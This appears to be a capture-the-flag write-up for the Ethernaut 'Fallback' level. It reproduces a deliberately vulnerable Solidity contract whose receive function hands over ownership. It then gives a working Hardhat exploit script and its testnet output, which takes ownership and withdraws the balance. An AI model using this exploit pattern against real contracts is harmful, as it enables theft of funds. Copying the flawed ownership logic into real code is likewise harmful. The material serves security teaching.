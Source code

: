 ```yaml
---
title: "Ethernaut #01 Fallback"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallback challenge writeup
---
```


## Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

    you claim ownership of the contract
    you reduce its balance to 0

  Things that might help

    How to send ether when interacting with an ABI
    How to send ether outside of the ABI
    Converting to and from wei/ether units (see help() command)
    Fallback methods


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Background

The `fallback` function is a function that is called when the function identifier does not match any of the contract functions or if a function call is invoked without any data (hence no function identifier is provided). Since Solidity 0.6.0 a the function `receive` was introduced. `receive` works the same way as fallback but is called when the invocation has a value (funds).

### Attack

Solving this is pretty straight forward. The whole challenge just seems to be around understanding how to invoke the `fallback` functionality (more specifically the `receive` functionality).

* In order to call the `withdraw` function one needs to be the owner.
* If the `fallback` function is called with some value and the `msg.sender` already has contributed some funds, the owner is changed to the `msg.sender`. So the 
* One can call `contribute` with less than `0.001 ETH` and place some contribution.

So the attack would look something like this

* call `contribute` with less than `0.001 ETH`
* call `fallback` with some value
* call `withdraw`

#### fallback-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallback-solve.js --network rinkeby
Level address   : 0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46
Contract Owner  : 0x9CB391dbcD447E645D6Cb55dE6ca23164130D008
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
